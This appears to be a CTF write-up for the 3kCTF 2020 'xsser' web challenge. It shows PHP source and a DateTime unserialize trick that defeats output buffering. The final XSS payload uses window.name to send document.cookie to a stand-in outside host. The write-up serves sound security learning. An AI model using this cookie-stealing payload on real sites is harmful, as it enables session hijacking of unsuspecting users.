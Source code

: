 # 3kCTF 2020: xsser

### (Web, 499 pts, 4 solves)

Description
> challenge

> Author: Dali

## Walkthrough

Source code is provided:

```
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){


  if(stripos($new_name, 'script'))//no xss :p 
                 { 
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

From the challenge name it is about XSS. After setting `$_GET['login']`, you can enter something in `$_GET['new']`, which is supposed to be reflected on the page for XSS.

Thanks to `ob_start();` and `ob_end_clean();`, nothing about the user input are printed in the normal case.

To address this, we can make the interpreter panic before `ob_end_clean();`.  Maybe `unserialize` could do so? 

But most of the time `unserialize` just returns FALSE when you input some garbage that is "un-unserialize-able" (pun intended)

Let's try to unserialize some meaningful junks:

```
<?php
foreach (get_declared_classes() as $c) {
	unserialize('O:'.strlen($c).':"'.$c.'":0:{}');
}
```

It shows `Fatal error: Uncaught Error: Invalid serialization data for DateTime object`. So `DateTime` should do the trick.

How about the actual XSS payload? We can't use `<script src=//blah></script>`. 

For some reason `script<script src=//blah></script>` could bypass that `stripos` but it is too long.

Later on I found that `/req.php` accepts external URLs as well. So we can use some other tricks like `window.name`:

```
<script>name='location="//blah/"+document.cookie';location='//127.0.0.1/?new=%3Cbody%20onload=eval(name)%3E&login=O:8:%22DateTime%22:0:%7B%7D';</script>
```
---
## Remarks

At first I tried the payload with iframe but Chrome blocks the `Set-Cookie` header due to "third-party cookies preference".

Then I tried the payload with form and Chrome blocks the popup as expected. But for some reason the Headless Chrome works.
